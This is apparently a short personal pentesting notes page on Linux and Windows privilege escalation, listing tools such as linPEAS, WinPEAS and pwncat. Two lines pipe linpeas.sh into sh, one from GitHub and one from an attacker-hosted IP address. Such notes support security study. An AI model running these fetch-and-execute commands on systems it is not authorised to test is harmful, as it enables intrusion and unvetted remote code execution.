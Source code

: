 ```yaml
---
{"dg-publish":true,"permalink":"/privilege-escalation/"}
---
```


- [[Linux privesc - checklist\|Linux privesc - checklist]]
- [GitHub - rebootuser/LinEnum: Scripted Local Linux Enumeration & Privilege Escalation Checks](https://github.com/rebootuser/LinEnum)

- https://github.com/peass-ng/PEASS-ng
	- https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

- [Windows Post Exploitation 12.3](https://mrw0r57.github.io/2020-06-04-Windows-Post-Exploitation-12-3/?utm_source=chatgpt.com)
## Linux privesc

### Linpeas

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```
curl -L http://10.10.15.38:8000/linpeas.sh | sh
```

## Windows privesc

- [[Winpeas\|Winpeas]]
- [[Ghostpack Seatbelt\|Ghostpack Seatbelt]]


## Types

- Horizontal 
- Vertical


## More Tools

- [[BeRoot\|BeRoot]]
- [[LinPostEXP\|LinPostEXP]]
- [[Windows Exploit Suggester\|Windows Exploit Suggester]]
- [[pwncat\|pwncat]]